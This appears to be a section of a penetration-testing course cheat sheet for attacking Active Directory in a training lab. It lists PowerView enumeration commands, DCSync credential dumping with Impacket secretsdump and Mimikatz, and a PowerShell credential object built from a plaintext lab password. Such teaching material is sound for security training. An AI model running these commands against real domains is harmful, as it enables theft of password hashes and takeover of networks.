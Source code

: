| Command                                                                                                                                                                                                                                                                                                     | Description                                                                                                                                                                                                               |
| ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-DomainUser -Identity adunn \| select samaccountname,objectsid,memberof,useraccountcontrol \|fl`                                                                                                                                                                                                        | PowerView tool used to view the group membership of a specific user (`adunn`) in a target Windows domain. Performed from a Windows-based host.                                                                            |
| `$sid= "S-1-5-21-3842939050-3880317879-2865463114-1164" Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs \| ? { ($_.ObjectAceType -match 'Replication-Get')} \| ?{$_.SecurityIdentifier -match $sid} \| select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType \| fl` | Used to create a variable called SID that is set equal to the SID of a user account. Then uses PowerView tool `Get-ObjectAcl` to check a specific user's replication rights. Performed from a Windows-based host.         |
| `secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 -use-vss`                                                                                                                                                                                                          | Impacket tool sed to extract NTLM hashes from the NTDS.dit file hosted on a target Domain Controller (`172.16.5.5`) and save the extracted hashes to an file (`inlanefreight_hashes`). Performed from a Linux-based host. |
| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator`                                                                                                                                                                                                                  | Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host.                                                                                                                                                   |

## Privileged Access

| Command                                                                                                                                  | Description                                                                                                                                                                                                                                                             |
| ---------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"`                                                | PowerView based tool to used to enumerate the `Remote Desktop Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host.                                                                                                             |
| `Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"`                                             | PowerView based tool to used to enumerate the `Remote Management Users` group on a Windows target (`-ComputerName ACADEMY-EA-MS01`) from a Windows-based host.                                                                                                          |
| `$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force`                                                                     | Creates a variable (`$password`) set equal to the password (`Klmcargo2`) of a user from a Windows-based host.                                                                                                                                                           |
| `$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)`                                       | Creates a variable (`$cred`) set equal to the username (`forend`) and password (`$password`) of a target domain account from a Windows-based host.                                                                                                                      |